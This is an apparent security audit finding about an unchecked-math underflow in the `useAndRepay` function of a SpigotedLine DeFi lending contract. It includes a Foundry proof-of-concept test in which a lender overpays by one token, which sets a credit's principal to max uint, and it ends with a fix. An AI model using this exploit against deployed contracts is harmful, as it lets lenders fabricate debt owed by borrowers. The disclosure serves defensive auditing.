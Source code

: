 # `useAndRepay` function can be used to underflow the principal debt of a credit

The function `useAndRepay` present in the SpigotedLine contract doesn't check that the amount is within the debt limit and can be used by a malicious lender to underflow the principal variable and manipulate the debt of a credit.

## Impact

A malicious lender can use the `useAndRepay` function to underflow the `principal` variable of the Credit struct by sending an amount that is greater to the limit of the debt (principal + interests accrued). Once underflowed, this will represent artificial debt generated in the credit.

This is possible because the function doesn't check that the amount is within debt limit, and also because the function `CreditLib.repay` uses unchecked math for its calculations, assuming the calling function does the proper checks.

This can be used by a bad actor to manipulate the principal amount of his credit and artificially generate debt.

## PoC

In the following test, the lender pays off the debt using revenue coming from the Spigot by calculating the sum of principal and interest accrued and offsetting that amount by 1 token more to trigger the conditions. This will underflow the credit and set the principal to max uint.

Note: the context for this test (setup, variables and helper functions) is similar to the one found in the file `SpigotedLine.t.sol`.

```
function test_useAndRepay_overflowDeposit() public {
    // Borrow
    _borrow(line.ids(0), lentAmount);
    
    // Trade revenue for credit 
    uint256 claimable = spigot.getEscrowed(address(revenueToken));        // console.log(claimable);

    bytes memory tradeData = abi.encodeWithSignature(
        'trade(address,address,uint256,uint256)',
        address(revenueToken),
        address(creditToken),
        claimable,
        lentAmount * 2
    );

    vm.prank(borrower);
    line.claimAndTrade(address(revenueToken), tradeData);
    
    // Time passes to generate some debt
    vm.warp(block.timestamp + 30 days);
    line.updateOutstandingDebt();
    
    bytes32 id = CreditLib.computeId(address(line), lender, address(creditToken));
    
    // Lender calls useAndRepay with an amount that exceeds the debt
    (, uint256 principal, uint256 interestAccrued,,,,)  = line.credits(id);
    uint256 amount = principal + interestAccrued + 1;
    vm.prank(lender);
    line.useAndRepay(amount);
    
    // BOOM! principal was overflowed! Now the borrower owes near infinite money 
    (, uint256 principalAfter,,,,,)  = line.credits(id);
    console.log("Principal", principalAfter);
    assertEq(principalAfter, type(uint256).max);
}
```

## Recommendation

Validate the `amount` param in the `useAndRepay` function is within the limits of the debt (`amount <= credit.principal + credit.interestAccrued`).

